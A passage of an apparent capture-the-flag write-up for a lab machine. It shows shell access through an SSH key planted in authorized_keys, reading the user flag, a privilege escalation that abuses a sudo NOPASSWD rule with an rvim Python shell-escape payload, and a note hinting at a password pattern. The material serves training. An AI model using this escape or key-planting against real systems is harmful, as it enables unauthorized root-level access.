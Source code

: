 We can drop an `SSH` key in the `authorized_keys` and get a proper shell into the box.

# Getting the user Flag
```python
-bash-4.2$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
-bash-4.2$ whoami
frank
-bash-4.2$ ls -l
total 4
drwxr-x---. 2 frank frank 26 Jun 26  2017 bin
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Desktop
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Documents
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Downloads
drwxr-x---. 2 frank frank 27 Jun 26  2017 logs
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Music
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Pictures
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Public
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Templates
-r--------. 1 frank frank 33 Jul 21 12:38 user.txt
drwxr-xr-x. 2 frank frank  6 Jun 25  2017 Videos
-bash-4.2$ cat user.txt 
caddf25898e28d8e12db9a65e5c9af5b
```

# User Escalation to adm
We see that we have a have `sudo NOPASSWD` rule on us which we can abuse.
We use this payload in the `rvim` command mode.
```
:py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
```

We get escalated to the `adm` user.
```python
sh-4.2$ id
uid=3(adm) gid=4(adm) groups=4(adm) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ whoami
adm
```

# Root Escalation
We see that here we have a `rar` file and a `note.txt`.
```python
sh-4.2$ ls -la
total 8
drwxr-x---. 3 root adm  52 Jul  3  2017 .
drwxr-x---. 3 root adm  19 Jul  3  2017 ..
-rw-r-----. 1 root adm 475 Jul  3  2017 keys.rar
drwxr-x---. 2 root adm  20 Jul  3  2017 .local
-rw-r-----. 1 root adm 154 Jul  3  2017 note.txt
sh-4.2$ cat note.txt 
Note from Administrator:
Frank, for the last time, your password for anything encrypted must be your last name followed by a 4 digit number and a symbol.
```

